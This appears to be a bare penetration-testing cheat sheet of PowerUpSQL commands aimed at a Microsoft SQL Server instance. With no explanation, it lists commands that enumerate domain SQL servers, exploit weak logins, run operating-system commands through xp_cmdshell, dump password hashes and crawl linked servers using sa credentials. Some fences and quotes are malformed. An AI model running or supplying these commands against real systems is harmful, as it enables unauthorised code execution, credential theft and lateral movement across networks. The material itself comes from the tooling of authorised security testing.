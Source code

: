 ```
Get-SQLInstanceDomain -Verbose
Get-SQLServerInfo -Verbose -Instance DESKTOP-4D21EQP\SQLEXPRESS

```
### Follow Out
```
$Servers = Get-SQLInstanceDomain –Verbose | Get-SQLConnectionTestThreaded –Verbose -Threads 10
Invoke-SQLAuditWeakLoginPw –Verbose
Invoke-SQLAuditWeakLoginPw –Verbose –Instance DESKTOP-4D21EQP\SQLEXPRESS –Exploit
invoke-SQLOSCmd -Verbose -Instance DESKTOP-4D21EQP\SQLEXPRESS -Command "dir c:\windows\system32\Drivers\etc" -RawResults
invoke-SQLOSCmd -Verbose -Instance DESKTOP-4D21EQP\SQLEXPRESS -Command "ipconfig" -RawResults
Invoke-SQLOSCmd –Verbose –Command “whoami” –Threads 10 -Instance DESKTOP-4D21EQP\SQLEXPRESS
Get-SQLServerPasswordHash -Verbose -Instance DESKTOP-4D21EQP\SQLEXPRESS -Migrate
```

### Linked Server Crawling
``
Get-SQLServerLinkCrawl -verbose -instance "DESKTOP-4D21EQP\SQLEXPRESS" -username 'sa' -password '123456'
Get-SQLServerLinkCrawl -instance "DESKTOP-4D21EQP\SQLEXPRESS" -Query "exec master..xp_cmdshell ‘whoami’" -username 'sa' -password '123456'
Get-SQLServerLinkCrawl -instance "DESKTOP-4D21EQP\SQLEXPRESS" -Query "exec master..xp_cmdshell ‘whoami’" -username 'sa' -password '123456'
```
